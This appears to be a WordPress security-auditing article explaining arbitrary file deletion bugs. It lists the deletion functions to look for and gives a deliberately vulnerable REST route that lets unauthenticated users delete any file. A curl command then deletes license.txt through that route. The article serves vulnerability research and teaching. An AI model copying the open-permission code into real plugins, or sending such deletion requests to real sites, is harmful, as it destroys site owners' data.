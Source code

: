 ```yaml
---
title: Arbitrary File Deletion
contributors:
    - rafiem
---
```


## Introduction

This article covers cases of possible Arbitrary File Deletion on WordPress. This includes improper file or directory deletion handling inside of the plugin/theme which can be used to delete arbitrary local files and directories inside of the server.

## Useful Functions

Several functions could be useful to identify a possible Arbitrary File Deletion vulnerability:

- PHP related
    - [`unlink`](https://www.php.net/manual/en/function.unlink.php)
    - [`rmdir`](https://www.php.net/manual/en/function.rmdir.php)

- WordPress related
    - [`wp_delete_file](https://developer.wordpress.org/reference/functions/wp_delete_file/)
    - [`wp_delete_file_from_directory`](https://developer.wordpress.org/reference/functions/wp_delete_file_from_directory/)
    - [`WP_Filesystem_Direct::delete`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/delete/)
    - [`WP_Filesystem_Direct::rmdir`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/rmdir/)

## Example Cases

Below is an example of vulnerable code:

```php
add_action("init", "rest_init_setup");

function rest_init_setup(){
    register_rest_route( "myplugin/v1", '/deletemedia/', array(
        'methods'                   =>  "POST",
        'callback'                  =>  array( $this, 'delete_media_upload' ),
        'permission_callback' => '__return_true',
    ) );
}

function delete_media_upload($request){
    $args = json_decode($request->get_body(),true);
    $data = array('status'=>false);
    if(!empty($args['media']) ){
        wp_delete_file( $args['media']['file'] );
        $data = array('status'=>true);
    }
    return new WP_REST_Response( $data, 200 );
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `/wp-json/myplugin/v1/deletemedia` endpoint specifying the needed parameter to trigger the `wp_delete_file` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-json/myplugin/v1/deletemedia -d '{"media":{"file":"<WORDPRESS_BASE_DIRECTORY>/license.txt"}}' -H 'Content-Type: application/json'
```
